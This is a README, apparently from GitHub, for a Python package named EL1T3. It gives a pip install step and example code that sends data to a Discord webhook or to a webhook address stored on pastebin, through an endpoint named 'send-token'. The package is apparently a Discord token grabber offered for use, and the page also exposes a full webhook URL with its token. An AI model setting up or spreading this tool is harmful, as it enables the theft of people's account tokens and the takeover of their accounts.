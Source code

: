 <h1 align="center">THE EL1T3 PROJECT</h1>

<p align="center">
  <b>Some link:</b><br>
  <a href="https://discord.gg/4cajZdYpgS">Discord</a> |
  <a href="https://www.youtube.com/channel/UC09GPm24_rdeOXa5KOmhDnw">YouTube</a> |
  <a href="https://github.com/Its-Vichy">Github</a> |
  <a href="https://pypi.org/project/EL1T3">PyPI Package</a><br>
  <br>
  <img src="https://media.discordapp.net/attachments/813683001496961065/813783642265747516/6869f4cf0c2f7349903668b562c4e403.gif">
</p>
<h1 align="center">FAST SETUP</h1>

## Tips:
- **Install module with**: ``pip install EL1T3``
- ``dynamic_url`` **is used for RAW link, set this parameter to ``True`` if your webhook is on a raw (pastebin etc...)**

## Exemple Code:
```py
from EL1T3 import EL1T3

# Direct Url
EL1T3(dynamic_url= False, webhook_url= "https://discord.com/api/webhooks/816422104949719050/M-BU_eGHYUggYt0UhgKmU7GDUZ6L9bvSQcS08yVmeucGkWzeIYcXVcL3LMxSy5e23way", api_url= 'http://127.0.0.1:1337/send-token/')

# RAW Url
EL1T3(dynamic_url= True, webhook_url= "https://pastebin.com/raw/bNcRrQiK", api_url= 'http://127.0.0.1:1337/send-token/')
```

<h1 align="center">API RELEASE SOON</h1>